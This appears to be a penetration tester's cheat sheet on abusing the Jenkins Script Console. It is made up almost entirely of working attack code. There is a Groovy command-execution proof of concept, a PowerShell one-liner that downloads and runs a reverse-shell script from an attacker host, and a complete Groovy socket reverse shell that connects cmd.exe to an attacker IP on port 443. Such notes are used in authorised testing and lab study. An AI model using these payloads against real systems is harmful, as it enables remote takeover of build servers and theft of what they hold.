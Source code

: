 ```yaml
---
category: Uncategorized
tags: []
---
```


Manage Jenkins > Script Console

#### POC:
```jenkins - web app
println "cmd.exe /c systeminfo".execute().text
```

#### Powershell rev shell:
Manage Jenkins > Script Console
```jenkins - web app
def command = "powershell -c iex(new-object net.webclient).downloadstring(‘http://$KALI:80/Invoke-PowerShellTcp.ps1')"  
def proc = command.execute()  
println(proc.in.text)
```

#### CMD rev shell:
Manage Jenkins > Script Console
```jenkins - web app
String host="$KALI";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

